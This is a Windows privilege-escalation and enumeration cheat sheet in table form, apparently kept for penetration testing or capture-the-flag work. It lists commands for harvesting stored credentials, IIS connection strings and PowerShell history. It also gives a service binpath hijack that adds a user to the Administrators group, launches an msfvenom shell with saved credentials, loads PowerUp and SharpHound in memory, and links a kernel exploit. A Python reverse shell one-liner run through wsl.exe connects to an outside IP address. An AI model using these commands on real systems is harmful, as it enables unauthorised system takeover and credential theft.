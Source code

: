 # Windows Enumeration

| Command | Summary |
| ---------------------------- | ---------------------------- |
| ```dir <name of file> /s /p``` | Search the file system, recursively for the filename |
| ```whoami /priv``` | Gets the privileges for current user context |
| ```whoami /groups``` | Gets a listing of the groups for the current user context |
| ```more < name_of_alternate_data_stream.txt``` | Returns the contents of the alternate data stream | 
| ```cmdkey /list``` | We may get lucky and find stored credentials |
| ```runas /savecred /user:DOM.LOCAL\Administrator "C:\Users\<user>\Documents\shell.exe"``` | If the user is storing creds, launch an msfvenom shell | 
| ```accesschk64.exe -wvu <file.exe>``` | This will check the files access writes |
| ```icacls.exe <filename.txt>``` | Does the same thing as accesschk64.exe but is native to OS |
| ```accesschk64.exe -uwcv Everyone *``` | Searches the file system for world-writeable service binaries |
| ```accesschk64.exe -uwcv <service name>``` | Once you identify a service, get more detail by searching for the single service name |
| ```sc query <service name>``` | We can gather the binmary path name by using the sc query command |
| ```sc config <service name> binpath= "net localgroup administrators <username> /add"``` | Modify binpath |
| ```powershell.exe -nop -ep bypass . .\PowerUp.ps1``` | With modified PowerUp.ps1, will run as you invoke program |
| ```wmic product get name,version``` | Uses WMI to get installed software |
| ```Get-ChildItem -Hidden -Path C:\Users\username\Desktop\``` | Searches directory for hidden files | 
| ```wmic service where "name like 'service name'" get Name,PathName``` | Uses WMI to get service information | 
| ```Get-Service \| where-object Name -match 'Service Name' ``` | Using Powershell search for service information |
| ```Get-Process -Name name-of-process``` | Using Get-Process find process PID | 
| ```netstat -noa \|findstr "LISTENING" \|findstr "1337"``` | Using the PID of the process, find out what port its running on | 
| ```net accounts``` | Check the logs settings on a machine such as passowrd policy, etc.|
| ```net accounts /domain``` | Check if the machine belongs to a domain | 
| ```net share``` | Checks for a list of open shares |

| Check | Description |
| ---------------------------- | ---------------------------- |
| PowerShell IWR vs IEX | Be sure to remember IEX will run the script in memory, useful for loading SharpHound.ps1 remotely |
| What tokens are on machine | If there tokens on the machine, you may be able to switch into that user, and elevate privileges |
| Check for autoruns | These are programs that can run with elevated permissions. If they have execissive permssions (EVERYONE) you can replace the binary and elevate access |
| Check for Binary Path issues| See command above, its important that we can restart these services to affect them |
| If Binary Path has issue | We can modify the path to our malicious payload, add your self to Administrators group, or use other techniques |
| Check with PowerUp.ps1 | Make sure you have modified the script to Invoke-AllChecks |
| Older Windows OS Win7, Win2008 | Check MS10-059 (Chimichurri) ```https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059``` |
| Be sure to check program files and (x86) | Enumerate all of the software that might be loaded on the machine |
| Check for IIS credentials | ```type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString``` |

## Common Location for WSL.exe
```
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe
```

## Python Reverse Shell with WSL.exe
```
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.19",12345));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

## Windows Kernel Exploits
- [Windows Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059)

## Checking PowerShell Command History
```
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
